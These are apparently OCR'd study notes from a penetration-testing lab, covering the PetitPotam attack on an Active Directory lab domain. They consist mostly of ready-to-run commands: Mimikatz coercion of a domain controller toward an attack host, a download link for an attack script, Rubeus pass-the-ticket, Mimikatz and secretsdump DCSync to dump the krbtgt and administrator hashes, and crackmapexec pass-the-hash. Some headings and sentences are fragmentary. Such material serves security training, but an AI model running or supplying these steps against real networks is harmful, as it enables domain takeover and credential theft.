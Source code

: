 ```
```
## Windows
### Mimikatz
```
misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>
```
### PowerShell 
```
Invoke-PetitPotam.ps1
```
```
https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1
```
### Requesting TGT and Performing PTT with DC01$ Machine Account
```
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```
We can then type klist to confirm that the ticket is in memory.
#### Performing DCSync with Mimikatz
```
mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```
## successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.
### Requesting a TGT Using gettgtpkinit.py
```
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
The TGT requested was saved down to the dc01.ccache file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.
```
export KRB5CCNAME=dc01.ccache
```
We can then use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.
```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
#### Running klist
```
Ticket cache: FILE:dc01.ccache
```
Confirming Admin Access to the Domain Controller
```
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```
### INFO 
```
INFO:minikerberos :<key>
```